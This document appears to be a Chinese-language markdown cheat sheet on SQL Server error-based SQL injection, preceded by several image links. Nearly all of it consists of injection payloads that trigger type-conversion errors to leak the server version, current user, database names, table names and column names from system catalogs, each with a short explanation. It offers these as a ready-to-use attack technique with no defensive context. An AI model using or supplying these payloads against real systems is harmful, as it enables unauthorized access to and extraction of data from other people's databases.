





# Sqlserver注入方式


## 爆版本号

```shell
and @@version<0  #系统版本字符串与整型0比较报错
```




## 爆用户名

```shell
and user_name()<0  #用户名字符串与整型0比较报错
```




## 爆当前连接库名

```shell
and db_name()>0  #库名字符串与整型0比较报错
```




## 爆库名

```shell
and (select top 1 name from master..sysdatabases)>0  #库名字符串与整型0比较报错
```




## 爆表名

```shell
and (select top 1 name from Testdb.sys.all_objects where type='u' and is_ms_shipped=0)>0
```

查出第一个表名跟0做比较，数据类型不一致报错




## 爆字段名

```shell
and (select top 1 column_name from Testdb.information_schema.columns where table_name='black')>0
```

查出第一个字段名跟0做比较，数据类型不一致报错


